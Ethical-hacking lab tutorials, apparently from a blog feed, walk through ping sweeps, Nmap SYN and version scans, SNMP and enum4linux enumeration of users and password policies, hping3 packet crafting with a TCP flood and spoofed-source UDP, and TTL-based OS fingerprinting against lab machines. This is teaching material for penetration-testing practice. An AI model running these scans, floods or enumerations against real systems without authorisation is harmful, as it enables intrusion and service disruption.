<h3 class="wp-block-heading" id="1-test-the-one-liner-command-to-grab-only-ip-addresses">1. Test the one-liner command to grab only IP addresses<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#1-test-the-one-liner-command-to-grab-only-ip-addresses"></a></h3>


<p>First of, I will use the&nbsp;<code>ping</code>&nbsp;command on a given subnet range, to check if the hosts are alive.<br><strong>The goal is: ping every single host on a given range with a clean output for it.</strong></p>


<p>The clean output part is because when we use&nbsp;<code>ping</code>&nbsp;command, they return a bunch of strings, the goal is remove all the unnecessary information and stick only to the IP addresses.&nbsp;<strong>Example:</strong></p>


<p><code>ping -c 1 8.8.8.8</code></p>


<pre class="wp-block-code"><code>PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=155 ms
--- 8.8.8.8 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
</code></pre>


<p>We only need the second line of this output starting with&nbsp;<strong>“64 bytes(…)”</strong>&nbsp;that have the IP address of the alive host.</p>


<pre class="wp-block-code"><code>64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=155 m
</code></pre>


<p><strong>Grabbing only IP addresses:</strong></p>


<p><code>ping -c 5 8.8.8.8 | grep "64" | cut -d " " -f 4 | tr -d ":" ; &gt; iptest.txt</code></p>


<pre class="wp-block-code"><code>8.8.8.8
8.8.8.8
8.8.8.8
8.8.8.8
8.8.8.8
</code></pre>


<p>Breaking down the one-liner command (by pipe):</p>


<ol class="wp-block-list">
<li>Ping the IP 5 times;</li>


<li>Grep the first string characters of the line (<strong>64</strong> bytes…);</li>


<li>Cut the whitespaces on 4 slices to reach the IP string;</li>


<li>Use translate command to trim/delete the “:” symbol;</li>


<li>Export the results to a .txt file;</li>
</ol>


<h3 class="wp-block-heading" id="2-transforming-into-script">2. Transforming into script<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#2-transforming-into-script"></a></h3>


<ol class="wp-block-list">
<li>Create a file .sh (pingsweep.sh)</li>
</ol>


<pre class="wp-block-code"><code><em>#!/bin/bash </em>
 
<strong>if</strong> <strong>&#91;</strong> "$1" <strong>==</strong> "" <strong>]</strong>
<strong>then
</strong>echo "&#91;-] You forgot the IP address!"
echo "&#91;-] Syntax: ./ipsweep.sh 10.10.10"

<strong>else
for </strong>ip <strong>in</strong> `seq 1 254`; <strong>do 
</strong>ping -c 1 $1.$ip | grep "64 bytes" | cut -d " " -f 4 | tr -d ":" &amp;
<strong>done
fi</strong>
</code></pre>


<p>Is more convenient to take the user’s input on the first three octets and the last octet is the loop (1 &#8211; 254).<br><strong>Input example: 192.168.1</strong></p>


<p>The script below is very barebone, have one conditional statement for grab the correct user’s input, a loop through the subnet range, and the one-liner command using the user’s input with the loop variable.</p>


<ol class="wp-block-list">
<li>Save the file, change the permissions and make executable:</li>
</ol>


<p><code>chmod 770 pingsweep.sh</code><br><code>chmod +x pingsweep.sh</code></p>


<ol class="wp-block-list">
<li>Test it out:</li>
</ol>


<p><code>./pingsweep.sh 10.0.2 &gt; ping-results.txt</code><br><code>cat ping-results.txt</code></p>


<pre class="wp-block-code"><code>10.0.2.3
10.0.2.1
10.0.2.15
10.0.2.22
10.0.2.23
10.0.2.37
</code></pre>


<h2 class="wp-block-heading" id="perform-stealth-syn-scan">Perform Stealth Syn Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#perform-stealth-syn-scan"></a></h2>


<p>Now, choose and IP address from the results, and perform a&nbsp;<strong>stealthy syn scan</strong>&nbsp;on&nbsp;<strong>Nmap</strong>.</p>


<p><code>nmap -sS &lt;Target IP Address&gt;</code></p>


<pre class="wp-block-code"><code>...
Host is up (0.00092s latency).
Not shown: 977 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
...
</code></pre>


<p>SYN scan is the default and most popular scan option for good reason. It can be performed quickly, scanning thousands of ports per second on a fast network not hampered by intrusive firewalls.</p>


<h2 class="wp-block-heading" id="stealth-syn-scan-with-version-and-os-detection">Stealth Syn Scan with Version and OS Detection<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#stealth-syn-scan-with-version-and-os-detection"></a></h2>


<p>Version Detection collects information about the specific service running on an open port, including the product name and version number. This information can be critical in determining an entry point for an attack</p>


<p>Nmap will perform a stealth scan with version detection along with OS detection.</p>


<p><code>nmap -sSV -O &lt;Target IP Address&gt; -oN Enumeration.txt</code></p>


<pre class="wp-block-code"><code>Host is up (0.0017s latency).
Not shown: 977 closed ports
PORT      STATE SERVICE            VERSION
53/tcp    open  domain?
80/tcp    open  http               Microsoft IIS httpd 8.5
88/tcp    open  kerberos-sec       Microsoft Windows Kerberos (server time: 2019-12-06 20:56:57Z)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: Lab.local, Site: Default-First-Site-Name)
443/tcp   open  ssl/https?
</code></pre>


<p>The&nbsp;<code>-oN</code>&nbsp;stands for output / export the results into a text file that will save in your home /root/ directory with name&nbsp;<code>Enumeration.txt</code>.</p>


<hr class="wp-block-separator has-alpha-channel-opacity"/>


<h3 class="wp-block-heading" id="conclusion">Conclusion<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#conclusion"></a></h3>


<p>By performing services enumeration, an attacker might attempt to find vulnerabilities associated with that particular application and exploit them to gain access to the target machine.</p>


<h1 class="wp-block-heading" id="snmp-enumeration-using-snmp_enum">SNMP Enumeration using&nbsp;<code>snmp_enum</code></h1>


<p><strong>snmp_enum</strong>&nbsp;module in Metasploit allows enumeration of any devices with SNMP protocol support. It supports hardware, software, and network information. The default community used is ‘public’.</p>


<p>SNMP enumeration is the process of enumerating the users accounts and devices on a SNMP enabled computer.</p>


<p>SNMP service comes with two passwords, which are used to configure and access the SNMP agent from the management station. They are: Read community string and Read/Write community string. These strings (passwords) come with a default value, which is same for all the systems. They become easy entry points for attackers if left unchanged by administrator.</p>


<p>Attackers enumerate SNMP to extract information about network resources such as hosts, routers, devices, shares(…) Network information such as ARP tables, routing tables, device specific information and traffic statistics.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/2-SNMP-Enumeration.html#objectives"></a></h3>


<p>Enumeration:</p>


<ul class="wp-block-list">
<li>Connected devices</li>


<li>Hostname and information</li>


<li>Domain</li>


<li>Hardware and storage information</li>


<li>Software components</li>


<li>Total memory</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/2-SNMP-Enumeration.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux machine (Attacker)</li>


<li>Windows Server 2012 / 2016 (Victim/Target)</li>


<li>Ubuntu <a href="https://www.vulnhub.com/entry/bwapp-bee-box-v16,53/">BeeBox</a> (Victim/Target)</li>
</ul>


<h2 class="wp-block-heading" id="test-for-snmp-port-status">Test for SNMP Port Status<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/2-SNMP-Enumeration.html#test-for-snmp-port-status"></a></h2>


<p>First we need to find out whether the SNMP port is opened.&nbsp;<strong>SNMP uses port 161 by default</strong>. To check this information, we first need to run Nmap port scan.</p>


<p><strong>Note</strong>: Remember to activate the SNMP service on your Windows Server.</p>


<p><code>-sU</code>: Scans UDP port.<br><code>-p</code>: Port scan range.</p>


<p><code>nmap -sU -p 161 &lt;Target IP Address&gt;</code></p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.38
Host is up (0.00070s latency).

PORT    STATE SERVICE
161/udp open  snmp
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
</code></pre>


<h2 class="wp-block-heading" id="enumerate-community-string">Enumerate Community String<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/2-SNMP-Enumeration.html#enumerate-community-string"></a></h2>


<p>To perform SNMP enumeration, you have many tools available.<br>This tutorial demonstrate two ways to do the same thing: using&nbsp;<strong>Metasploit</strong>&nbsp;and&nbsp;<strong>snmp-check</strong>.</p>


<p>On Metasploit, you can use&nbsp;<strong>snmp_enum</strong>&nbsp;module:</p>


<p><code>auxiliary/scanner/snmp/snmp_enum</code></p>


<p>The other way to do this is to use snmp-check.<br>snmp-check is a package built-in on Kali Linux, just open the terminal and type:</p>


<p><code>snmp-check &lt;Target IP Address&gt;</code></p>


<p>Both methods enumerates the target machine information, and retrieve the same&nbsp;<strong>comprehensive list</strong>&nbsp;displaying the&nbsp;<strong>System Information</strong>. These tools supports the following enumerations:</p>


<ul class="wp-block-list">
<li>Host IP</li>


<li>Hostname</li>


<li>Hardware description</li>


<li>System uptime</li>


<li>SNMP uptime</li>


<li>Domain if system is connected in Domain</li>


<li>User Accounts</li>


<li>MAC Addresses</li>


<li>Running Processes</li>


<li><a href="https://tools.kali.org/information-gathering/snmp-check">Etc</a></li>
</ul>


<h1 class="wp-block-heading" id="enumerating-windows-and-samba-using-enum4linux">Enumerating Windows and Samba using Enum4linux</h1>


<p>A Linux alterantive to enum.exe for enumerating data from Windows and Samba hosts.</p>


<p>Enum4linux is a tool for enumerating information from Windows and Samba systems. As a security person you have to secure process where the attacker can establish an active connection with the victim and try to discover as many attack vectors as possible, which can be used to exploit the systems further.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#objectives"></a></h3>


<p>Enumeration:</p>


<ul class="wp-block-list">
<li>Connected Devices</li>


<li>Hostname and information</li>


<li>Domain</li>


<li>Hardware and storage information</li>


<li>Software Components</li>


<li>Total Memory</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux (Attacker)</li>


<li>Windows Server 2012 R2 (Target)</li>
</ul>


<h2 class="wp-block-heading" id="get-user-info">Get user info<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#get-user-info"></a></h2>


<p>Go to the Kali Linux and Open a new Terminal window.<br>Type&nbsp;<code>enum4linux -h</code>&nbsp;to view the options.</p>


<p>Next, type some existing credentials:</p>


<p><code>enum4linux -u CEH -p Pa55w.rd -U 10.0.2.23</code></p>


<p>-u: Username, -p Password, -U users information</p>


<p>The enum4linux starts enumerating the workgroups/domains first and displays the results all the results.</p>


<p>It lists out the Users info with their respective RIDs as show below:</p>


<pre class="wp-block-code"><code>index: 0xf4d RID: 0x1f4 acb: 0x00000010 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0x1025 RID: 0x453 acb: 0x00000014 Account: bobby Name: Bobby     Desc: (null)
index: 0x1024 RID: 0x452 acb: 0x00000010 Account: CEH   Name: (null)    Desc: (null)
index: 0xf4e RID: 0x1f5 acb: 0x00000214 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf85 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x102b RID: 0x459 acb: 0x00000010 Account: shmurdance    Name: (null)    Desc: (null)
</code></pre>


<h2 class="wp-block-heading" id="get-os-info">Get OS info<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#get-os-info"></a></h2>


<p>This option enumerates the target system and lists out its OS details as show below</p>


<p><code>enum4linux -u CEH -p Pa55w.rd -o 10.0.2.23</code></p>


<p>-o: Get OS information</p>


<pre class="wp-block-code"><code> =================================== 
|    OS information on 10.0.2.23    |
 =================================== 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
&#91;+] Got OS info for 10.0.2.23 from smbclient: 
&#91;+] Got OS info for 10.0.2.23 from srvinfo:
        10.0.2.23      Wk Sv Sql PDC Tim NT 
        platform_id     :       500
        os version      :       6.3
        server type     :       0x80102f
</code></pre>


<h2 class="wp-block-heading" id="get-password-policy-info">Get Password Policy info<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#get-password-policy-info"></a></h2>


<p>This options enumerates the target system and displays its entire password policy information as show below:</p>


<p><code>enum4linux -u CEH -p Pa55w.rd -P 10.0.2.23</code></p>


<p>-P: Get password policy information</p>


<pre class="wp-block-code"><code> ================================================= 
|    Password Policy Information for 10.0.2.23    |
 ================================================= 

&#91;+] Attaching to 10.0.2.23 using shmurdance:Pa55w.rd
&#91;+] Trying protocol 445/SMB...
&#91;+] Found domain(s):

        &#91;+] LAB
        &#91;+] Builtin

&#91;+] Password Info for Domain: LAB

        &#91;+] Minimum password length: 7
        &#91;+] Password history length: 24
        &#91;+] Maximum password age: 41 days 23 hours 53 minutes 
        &#91;+] Password Complexity Flags: 000001

                &#91;+] Domain Refuse Password Change: 0
                &#91;+] Domain Password Store Cleartext: 0
                &#91;+] Domain Password Lockout Admins: 0
                &#91;+] Domain Password No Clear Change: 0
                &#91;+] Domain Password No Anon Change: 0
                &#91;+] Domain Password Complex: 1

        &#91;+] Minimum password age: 1 day 4 minutes 
        &#91;+] Reset Account Lockout Counter: 30 minutes 
        &#91;+] Locked Account Duration: 30 minutes 
        &#91;+] Account Lockout Threshold: None
        &#91;+] Forced Log off Time: Not Set

&#91;+] Retieved partial password policy with rpcclient:

Password Complexity: Enabled
Minimum Password Length: 7
</code></pre>


<h2 class="wp-block-heading" id="get-group-info">Get Group Info<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#get-group-info"></a></h2>


<p>This options enumerates the target system and displays the group policy information, showing domain groups, memberships, local groups and so on.</p>


<p><code>enum4linux -u CEH -p Pa55w.rd -G 10.0.2.23</code></p>


<h2 class="wp-block-heading" id="get-share-info">Get Share info<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#get-share-info"></a></h2>


<p>This option enumerate the share policy information of the target machine</p>


<p><code>enum4linux -u CEH -p Pa55w.rd -S 10.0.2.23</code></p>


<p>-S: Get sharelist</p>


<h1 class="wp-block-heading" id="gui-tools-for-enumeration-in-windows">GUI Tools for Enumeration in Windows</h1>


<h2 class="wp-block-heading" id="global-network-inventory">Global Network Inventory<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#global-network-inventory"></a></h2>


<p>Global Network Inventory is used as an audit scanner in zero deployment and agent-free environments. It scans computers by IP range, by domain, and single or multiple computers, as defined by the Global Network Inventory host file. You can enumerate NetBIOS, Users Groups, Users, Software running, BIOS and so on.<br>[Trial/Paid]<br>http://www.magnetosoft.com/product/global_network_inventory/download</p>


<h2 class="wp-block-heading" id="advanced-ip-scanner">Advanced IP Scanner<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#advanced-ip-scanner"></a></h2>


<p>Free network scanner to analyse LAN. The program shows all network devices, gives you access to shared folders, provides remote control of computers (via RDP and Radmin), and can even remotely switch computers off. It is easy to use and runs as a portable edition. It should be the first choice for every network admin.<br>[Free]<br>https://www.advanced-ip-scanner.com/</p>


<h2 class="wp-block-heading" id="hyena">Hyena<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#hyena"></a></h2>


<p>Hyena provides extensive Active Directory (AD) reporting, with built-in tools for customizable queries, filtering, management of object properties, advanced attribute management, and many other AD administration features.<br>[Trial/Paid]<br>https://systemtools.com/</p>


<h2 class="wp-block-heading" id="superscan">SuperScan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#superscan"></a></h2>


<p>Free Port scanner for Windows. You can use the program to scan IPs, HTTPS, FTP, and more.<br>[Free]<br>https://superscan.en.softonic.com/</p>


<h2 class="wp-block-heading" id="softperfect-networkscanner">SoftPerfect NetworkScanner<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#softperfect-networkscanner"></a></h2>


<p>Network scanner can ping computers, scan ports, discover shared folders and so on.<br>[Trial/Paid] https://www.softperfect.com/products/networkscanner/</p>


<h2 class="wp-block-heading" id="adexplorer">ADExplorer<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/4-Windows-EnumerationTools.html#adexplorer"></a></h2>


<p>Active Directory Explorer (AD Explorer) is an advanced Active Directory (AD) viewer and editor. You can use AD Explorer to easily navigate an AD database, define favorite locations, view object properties and attributes without having to open dialog boxes, edit permissions, view an object’s schema, and execute sophisticated searches that you can save and re-execute.</p>


<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer
</div></figure>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Scanning a Target Network</title>
		<link>../../../2024/11/18/scanning-a-target-network/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 10:12:59 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8854</guid>

					<description><![CDATA[Network Scanning refers to a set of procedures performed to identify hosts, ports, and services running in a network. The purpose of network scanning is as follows: UDP and TCP....]]></description>
										<content:encoded><![CDATA[
<p>Network Scanning refers to a set of procedures performed to identify hosts, ports, and services running in a network.</p>


<p>The purpose of network scanning is as follows:</p>


<ul class="wp-block-list">
<li>Recognize available UDP and TCP network services running on the targeted hosts.</li>


<li>Recognize filtering systems between the user and the targeted hosts.</li>


<li>Determine the operating systems (OSs) in use by assessing IP responses.</li>


<li>Evaluate the target host’s TCP sequence number predictability to determine sequence prediction attack and TCP spoofing.</li>
</ul>


<h1 class="wp-block-heading" id="udp-and-tcp-packet-crafting-techniques-using-hping3">UDP and TCP Packet Crafting Techniques using&nbsp;<code>hping3</code></h1>


<p>Hping3 is a scriptable program that uses the&nbsp;<a href="https://www.tcl.tk/about/language.html">Tcl language</a>, whereby packets can be received and sent via a binary or string representation describing the packets.</p>


<p>During network scanning, your first task will be to scan the target network to determine all possible open ports, live hosts, and running services. Knowledge of packet-crafting techniques may help you to scan the network beyond the firewall or IDS.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>How to perform network scanning and packet crafting using hping3 commands.</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux (Attacker machine)</li>


<li>Windows 10 (Target machine)</li>
</ul>


<h2 class="wp-block-heading" id="overview-of-packet-crafting">Overview of Packet Crafting<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#overview-of-packet-crafting"></a></h2>


<p>Packet crafting is a technique that allows you to find vulnerabilities or entry points into a target network. This can ben performed by creating custom network packets to test network devices and behavior. ***</p>


<p><strong>Note:</strong>&nbsp;Before beginning this lab, install the Wireshark in Windows 10 machine.</p>


<h2 class="wp-block-heading" id="hping3-basics">hping3 basics<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#hping3-basics"></a></h2>


<p>Login to Kali Linux and launch the Terminal.<br>Use&nbsp;<code>hping3 -h</code>&nbsp;to show all the commands. We will foccus on a couple of them so don’t worry.</p>


<p>Let’s start!</p>


<p><code>hping3 -c 3 &lt;Target IP address&gt;</code></p>


<pre class="wp-block-code"><code>...
3 packets transmitted, 3 packets received, 0% packet loss
...
</code></pre>


<p>Note on the bottom of the output, the 3 packets were sent and received. You should get this response.</p>


<p><code>-c</code>&nbsp;stands for packet count. Means that we only want to send three packets to the target machine.</p>


<p>Next we will send a SYN flag scan with a port range.</p>


<p><code>hping3 --scan 1-3000 -S &lt;Target IP address&gt;</code></p>


<pre class="wp-block-code"><code>Scanning 10.0.2.15 (10.0.2.15), port 1-3000
3000 ports to scan, use -V to see all the replies
+----+-----------+---------+---+-----+-----+-----+
|port| serv name |  flags  |ttl| id  | win | len |
+----+-----------+---------+---+-----+-----+-----+
  135 epmap      : .S..A... 128 62018 65392    46
  139 netbios-ssn: .S..A... 128 63042  8192    46
  445 microsoft-d: .S..A... 128 52291 65392    46
All replies received. Done.
Not responding ports: 
</code></pre>


<p><code>--scan</code>&nbsp;parameter defines the port range to scan.<br><code>-S</code>&nbsp;represents&nbsp;<strong>SYN flag</strong>.</p>


<p>The output shows the open ports in the target machine, i.e. Windows 10.</p>


<h2 class="wp-block-heading" id="udp-packet-crafting">UDP packet crafting<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#udp-packet-crafting"></a></h2>


<p>To perform a UDP packet crafting in the target machine, type:</p>


<p><code>hping3 &lt;Target IP address&gt; --udp --rand-source --data 500</code></p>


<p>Next go to Windows 10 machine and fire up the Wireshark to start capturing packets.</p>


<p>Observe the UDP and ICMP packets. Click the&nbsp;<strong>UDP</strong>&nbsp;packet and look inside, the&nbsp;<strong>Data (500 bytes)</strong>.</p>


<p><code>--udp</code>&nbsp;UDP mode.<br><code>--rand-source</code>&nbsp;This option enables the random source mode. hping will send packets with random source address.<br><code>--data</code>&nbsp;data size in bytes.</p>


<h2 class="wp-block-heading" id="send-tcp-syn-request">Send TCP SYN Request<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#send-tcp-syn-request"></a></h2>


<p>Launch the Wireshark on Windows machine again and leave it running.</p>


<p>To send a TCP SYN request to the target machine, type:</p>


<p><code>hping3 -S &lt;Target IP address&gt; -p 80 -c 5</code></p>


<p><strong>This will transmit 5 packets request to victim machine through port 80.</strong></p>


<p><code>-S</code>&nbsp;will perform TCP SYN request on the target,&nbsp;<code>p</code>&nbsp;will pass the traffic through which port is assigned, and&nbsp;<code>-c</code>&nbsp;is the count of the packets sent to the target machine.</p>


<p>Switch to the target machine (Windows), and observe the TCP packets caputerd in Wireshark.</p>


<p>Next, stop the packet capture, and start a new capture again. Leave the Wireshark running.</p>


<h2 class="wp-block-heading" id="perform-tcp-flooding">Perform TCP Flooding<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/1-hping3.html#perform-tcp-flooding"></a></h2>


<p><code>hping3 &lt;Target IP address&gt; --flood</code></p>


<p>The&nbsp;<code>--flood</code>&nbsp;send packets as fast as possible, without taking care to show incoming replies.</p>


<p>After a couple seconds stop the packet capture in Wireshark on Windows. You will notice the TCP flooding from the attacker machine.</p>


<p>Note: If you want to inspect the TCP packet stream and do some reverse engineering make sure to understand more than the infamous “Three-Way Handshake”. *** Some interesting links:</p>


<h1 class="wp-block-heading" id="identify-target-systems-os-with-ttl-time-to-live-and-tcp-windows-sizes-using-wireshark">Identify Target System’s OS with TTL (Time-to-Live) and TCP Windows Sizes using Wireshark</h1>


<p>Identifying the OS used on the target host allows an attacker to figure out the vulnerabilities the system have and the exploits that might work on a system to further perform additional attacks.</p>


<p>Capture the response generated from the target machine using packet-sniffing tools such as Wireshark and watch the TTL and TCP window size.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/2-TTL.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Identify OS’s by TTL and TCP window size using Wireshark.</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/2-TTL.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Linux Ubuntu machine.</li>


<li>Windows 7 machine.</li>


<li>Windows 10 machine (Target running Wireshark).</li>
</ul>


<h2 class="wp-block-heading" id="overview-of-banner-grabbing">Overview of Banner Grabbing:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/2-TTL.html#overview-of-banner-grabbing"></a></h2>


<p><strong>There are two types of banner grabbing techniques: active and passive.</strong></p>


<p>Banner grabbing or OS fingerprinting is the method to determine the OS running on a remote target system.</p>


<figure class="wp-block-table"><table class="has-fixed-layout"><thead><tr><th>Operating System</th><th>Time-to-Live(TTL)</th><th>TCP Window Size</th></tr></thead><tbody><tr><td>Linux(Kernel 2.4 and 2.6)</td><td>64</td><td>5840</td></tr><tr><td>FreeBSD</td><td>64</td><td>65535</td></tr><tr><td>OpenBSD</td><td>64</td><td>65535</td></tr><tr><td>Google customized Linux</td><td>64</td><td>5720</td></tr><tr><td>Windows XP</td><td>128</td><td>65535</td></tr><tr><td>Windows 7, Vista and Server 2008</td><td>128</td><td>8192</td></tr><tr><td>Cisco Router IOS 12.4</td><td>255</td><td>4128</td></tr></tbody></table></figure>


<h2 class="wp-block-heading" id="using-wireshark-to-detect-ttl">Using Wireshark to Detect TTL<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/2-TTL.html#using-wireshark-to-detect-ttl"></a></h2>


<ol class="wp-block-list">
<li>Open Wireshark on your Windows 10 machine, select the correct interface and start capturing. (The interface may differ from your lab environment).</li>
</ol>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Go to the Ubuntu machine and start pinging the Windows 10 machine.</li>
</ol>


<p><code>ping -c 10 &lt;Target IP Address[Windows 10]&gt;</code></p>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Go back to the Wireshark and inspect the ICMP protocol by selecting the packet frame captured; Expand the Internet Protocol Version node in the packet details, you will see the TTL.</li>
</ol>


<p>TTL value recorded as&nbsp;<code>64</code>&nbsp;means that the ICMP request came from a Linux-based machine.</p>


<figure class="wp-block-image"></figure>


<ol class="wp-block-list">
<li>Refresh the Wireshark by starting another capture and go to your Windows 7.</li>
</ol>


<p>You will repeat the same process, but with the Windows 7 machine. Open the Prompt or Powershell and ping the Windows 10 machine running Wireshark.</p>


<p><code>ping &lt;Target IP Address&gt;</code></p>


<ol class="wp-block-list">
<li>Go back to the Wireshark on Windows 10 machine and inspect again the same TTL information.</li>
</ol>


<p>TTL value recorded as&nbsp;<code>128</code>&nbsp;means that the ICMP request came from a Windows-based machine.</p>


<figure class="wp-block-image"></figure>


<h1 class="wp-block-heading" id="basic-network-troubleshooting-using-megaping-windows">Basic Network Troubleshooting using MegaPing (Windows)</h1>


<p>MegaPing is an ultimate toolkit that provides complete essential utilities for IT administrators and solution providers.</p>


<p>Official site: http://www.magnetosoft.com/product/megaping/download</p>


<p>With MegaPing utility, you can detect live hosts, open ports of the system in the network. You can also perform various network troubleshooting activities with the help of network utilities integrated into it, such as DNS lookup name, DNS list hosts, Finger, host monitor, IP scanner, NetBios scanner, network time synchronizer, ping, port scanner, share scanner, traceroute, and whois.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/3-MegaPing.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Detect live hosts and open ports of systems in the network.</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/3-MegaPing.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Windows 7, 8 or 10.</li>


<li>Windows Server 2012/2016 (target).</li>
</ul>


<hr class="wp-block-separator has-alpha-channel-opacity"/>


<p>After the installation, launch the application on your Windows 10 machine.</p>


<h2 class="wp-block-heading" id="scanning-for-active-hosts">Scanning for Active Hosts<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/2-Scanning-Networks/3-MegaPing.html#scanning-for-active-hosts"></a></h2>


<p>This software is very simple to use. To start a scan click on&nbsp;<strong>IP Scanner</strong>&nbsp;on the left panel.</p>


<figure class="wp-block-image"></figure>


<ul class="wp-block-list">
<li>Specify the <strong>IP Range</strong> of your network lab, then click start.</li>


<li>Note the check box on the right side, you can view the <strong>MAC addresses</strong> from the hosts you harvested.</li>
</ul>


<p>MegaPing list down all the IP addresses under the specified target range with their&nbsp;<strong>TTL</strong>,&nbsp;<strong>Status</strong>(dead or alive), and their statistics.</p>


